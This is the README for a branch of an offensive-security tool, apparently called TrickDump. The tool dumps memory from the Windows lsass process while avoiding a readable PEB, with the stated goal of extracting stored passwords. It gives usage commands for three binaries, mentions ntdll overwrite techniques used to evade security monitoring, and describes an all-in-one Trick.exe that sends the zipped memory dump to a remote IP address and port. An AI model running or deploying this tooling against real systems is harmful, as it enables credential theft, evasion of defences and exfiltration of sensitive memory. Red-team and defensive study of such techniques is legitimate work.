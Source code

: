 # TrickDump - "peb-unreadable" branch

Create the Minidump file when the PEB structure is unreadable:

- **Lock**: Get OS information using RtlGetVersion, like before **- No admin privilege needed!**

- **Shock**: Load *lsarv.dll* with LdrLoadDll in your process and get its address and size with NtQueryVirtualMemory (it will be the same address in the lsass process!) **- No admin privilege needed!**

- **Barrel**:  Get SeDebugPrivilege privilege with NtOpenProcessToken and NtAdjustPrivilegeToken, open a handle with NtOpenProcess and get information and dump memory regions using NtQueryVirtualMemory and NtReadVirtualMemory  **- Admin privilege needed.**


In this case we will only get the information for the lsass' module *lsasrv.dll*, which is the only one needed in the Minidump file to be able to extract the passwords stored in memory. If you want information from other modules you may repeat the process of loading other DLLs or think a different approach.

-------------------------

## Usage

Execute each binary:

```
Lock.exe [disk/knowndlls/debugproc]
```

```
Shock.exe [disk/knowndlls/debugproc]
```

```
Barrel.exe [disk/knowndlls/debugproc]
```

You can execute the programs directly without overwriting the ntdll.dll library:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_peb1.png)

Or use one of the three different overwrite techniques:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_peb2.png)

Then the Minidump file is generated:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_peb3.png)

-------------------------

## All in one

If you prefer to execute only one binary, Trick.exe generates a ZIP file containing the 3 JSON files and the ZIP file with the memory regions:

```
Trick.exe [disk/knowndlls/debugproc] [IP_ADDRESS] [PORT]
```

You can create the ZIP file locally, optionally using a Ntdll overwrite method:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_peb4.png)

Or send it to a remote port using the second and third parameter as the IP address and the port:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_peb5.png)

In both cases you get a ZIP file like this, unzip it and create the Minidump file:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_7.png)
